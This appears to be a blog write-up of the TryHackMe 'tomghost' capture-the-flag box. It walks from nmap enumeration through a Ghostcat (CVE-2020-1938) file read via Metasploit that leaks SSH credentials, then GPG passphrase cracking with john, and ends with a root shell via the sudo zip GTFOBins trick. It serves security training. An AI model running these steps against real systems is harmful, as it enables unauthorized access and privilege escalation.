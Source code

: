 ```yaml
---
layout: post
title:  "THM Write-Up tomghost"
summary: Write-Up to the TryHackMe Machine tomghost
author: utnelson
date: '2022-02-10 10:35:23 +0530'
category: ['thm','write-up', 'easy']
thumbnail: /assets/img/posts/ghost_title.png
keywords: ghostcat, thm, box, easy, write-up, walkthrough
permalink: /blog/write-up-ghostcat/
---
```


## Enumeration

```console
root@machine:~$ nmap -sC -sV 10.10.114.227
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-10 12:55 CET
Nmap scan report for localhost (10.10.114.227)
Host is up (0.044s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.93 seconds
```

Nothing special on the website. So I inspected the `8080/tcp` port with `Apache Jserv (Protocol v1.3)`.  

After a short google session i found a exploit [CVE-2020-1938](https://www.exploit-db.com/exploits/48143).

Let's run metasploit for that:

```console
                                                  
 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v6.1.27-dev                          ]
+ -- --=[ 2196 exploits - 1162 auxiliary - 400 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View missing module options with show 
missing

msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/admin/http/tomcat_ghostcat

msf6 > use 0
msf6 auxiliary(admin/http/tomcat_ghostcat) > options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   AJP_PORT  8009              no        The Apache JServ Protocol (AJP) port
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT     8080              yes       The Apache Tomcat webserver port (TCP)
   SSL       false             yes       SSL

```

Only insert the `RHOSTS` with the target IP. And `run` it.  

```console
Result:
...
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
...
```

Nice. we found some creds `skyfuck:8730281lkjlkjdqlksalks`
## Foothold

ssh into the machine
```console
root@machine:~$ ssh skyfuck@10.10.114.227
The authenticity of host '10.10.114.227 (10.10.114.227)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.114.227' (ECDSA) to the list of known hosts.
skyfuck@10.10.114.227's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$
```

```console
skyfuck@ubuntu:~$ ls -la
total 928
drwxr-xr-x 4 skyfuck skyfuck   4096 Feb 10 04:19 .
drwxr-xr-x 4 root    root      4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck    136 Mar 10  2020 .bash_history
-rw-r--r-- 1 skyfuck skyfuck    220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck   3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:08 .cache
drwx------ 2 skyfuck skyfuck   4096 Feb 10 04:19 .gnupg
-rw-r--r-- 1 skyfuck skyfuck    655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck    394 Mar 10  2020 credential.pgp
-rw-rw-r-- 1 skyfuck skyfuck 136707 Feb 10 04:20 ghostcat.txt
-rwxrwxr-x 1 skyfuck skyfuck 764159 Feb 10 01:48 linpeas.sh
-rw-rw-r-- 1 skyfuck skyfuck   5144 Mar 10  2020 tryhackme.asc
```

in the home dir are two interesting looking file `tryhackme.asc` and `credential.pgp`. Download the to your local machine.  

Run `gpg2john` for getting the hash. And crack the passphrase with the wordlist `rockyou.txt`

```console
root@machine:~$ gpg2john tryhackme.asc > hash

File tryhackme.asc

root@machine:~$ john --wordlist=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru        (tryhackme)
1g 0:00:00:00 DONE (2022-02-10 13:39) 6.666g/s 7146p/s 7146c/s 7146C/s alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Nice it worked. So You can decrypt the `credential.pgp` with that.  
Import the key with inserting the found passphrase.
```console
root@machine:~$ gpg --import tryhackme.asc 
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: key 8F3DA3DEC6707170: secret key imported
gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:              unchanged: 2
gpg:       secret keys read: 1
gpg:   secret keys imported: 1
```
Decrypt the text.
```console
root@machine:~$ gpg --output ./plaintext.txt --decrypt ./credential.pgp 
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"

root@machine:~$ cat plaintext.txt 
merlin:{secret password}    
```
Nice new Creds for the user `merlin`  
Let's change to him.

```console
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ 
```
Change to home directory and there we go our `user.txt`

## Prev Escalation

First we check if there are any sudo commands we can execute. 
```console
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Quick look at [GTFOBins](https://gtfobins.github.io/gtfobins/zip/)

Run the following code:

```console
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! We got root. Cat the `root.txt` and you are done.


